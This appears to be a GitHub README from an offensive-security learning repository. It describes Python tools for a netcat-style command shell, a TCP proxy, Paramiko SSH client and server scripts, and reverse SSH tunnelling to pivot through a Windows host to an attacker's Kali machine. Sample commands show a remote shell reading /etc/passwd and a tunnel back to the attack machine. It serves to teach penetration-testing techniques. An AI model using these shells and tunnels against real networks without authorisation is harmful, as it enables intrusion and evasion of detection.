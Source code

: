 # TCP servers, shells and proxies

In some cases, being able to create our own TCP servers for writing command shells or crafting a proxy brings us the advantage.

## Netcat replacement

Netcat is the utility knife of networking, so it is no surprise that systems administrators remove it from their systems. Such a useful [netcat.py](netcat.py) tool would be quite an asset if an attacker managed to find a way in.

First terminal (server):

    $ python netcat.py -t 192.168.122.108 -p 5555 -l -c                  
    [*] Listening on 192.168.122.108:5555
    [*] Connection from ('192.168.122.108', 38332)
    [*] Running command "cat /etc/passwd"
    [*] Output: b'root:[...]

Second terminal (client):

    $ python netcat.py -t 192.168.122.108 -p 5555
    Go for it!
    netcatsh > 
    cat /etc/passwd
    root:[...]
    
## TCP Proxy

There are many reasons to have a [tcp_proxy.py](tcp_proxy.py) in our tool belt: forwarding traffic to bounce from host to host, or for assessing network-based software.

    usage: proxy.py [-h] [-c CLIENT] [-o CLIENTPORT] -t TARGET -p TARGETPORT
                    [-r RECEIVE_FIRST]
    proxy.py: error: the following arguments are required: -t/--target, -p/--port

Note: Use sudo with port 21 because it is a privileged port, so listening on it
requires administrative or root privileges.

## SSH server and client

It can be wise to encrypt traffic to avoid detection using Secure Shell (SSH). The target may not have an SSH client (Windows systems usually do not).

With Python, raw sockets and some crypto magic can be used to create an SSH client and server. The Paramiko library uses PyCrypto, and provides simple access to the SSH2 protocol.

These scripts ([ssh_server.py](ssh_server.py) and [ssh_client.py](ssh_client.py)) are for learning to use Paramiko to make a connection and run a command on an SSH system, configure an SSH server and SSH client to run remote commands on a Windows machine, and puzzle out the reverse tunnel demo file included with Paramiko to duplicate the proxy.py option made earlier (also in this directory).

On one machine (for example a Windows machine) start the server:

    $ python ssh_server.py
    [+] Listening for connection ... 

On another machine start up the client:

    $ python ssh_client.py
    Password:

## SSH Proxy

A [ssh_proxy.py](ssh_proxy.py) tool that will allow us to run commands by entering them into an SSH client on a remote SSH server.

## SSH reverse tunnel with Paramiko

Imagine having remote access to an SSH server on an internal network, but no direct access to the web server on the same network. The server with SSH installed does have access, but this SSH server doesn’t have the tools we'd like to use.

One way to overcome this problem is to set up a forward SSH tunnel.

    ssh -L 8008:web:80 username@sshserver

Alas, not many Windows systems are running an SSH server service. Instead, configure a reverse SSH tunneling connection: Set up an [SSH server](ssh_server.py) on attack machine and connect back to it from the Windows [SSH client](ssh_client.py) and through that SSH connection, specify a remote port on the SSH server that gets tunneled to the local host and port.

These then can be used to expose port 3389 to access an internal system using Remote Desktop or to access another system that the Windows client can access (like the web server).

The Paramiko demo files include a file called `rforward.py` that does exactly this (transport mode of Paramiko).

Run `rforward.py` from the Windows system and configure it to be the middleman to be able to tunnel traffic from a web server to the Kali SSH server.

    python rforward.py [SSH server address] -p 8081 -r [Web server address]:3000 --user=tim --password
    Enter SSH password:
    Connecting to ssh host [SSH server address]:22 . . .
    Now forwarding remote port 8081 to [Web server address]:3000 . . .
    
Now browse to http://127.0.0.1:8081 on the Linux server, and connect to the web server at
192.168.1.207:3000 through the SSH tunnel.

Flip back to the Windows machine to see the connection being made in Paramiko:

    Connected! Tunnel open ('127.0.0.1', 54690) -> ('SSH server address', 22) -> ('Web server address', 3000)

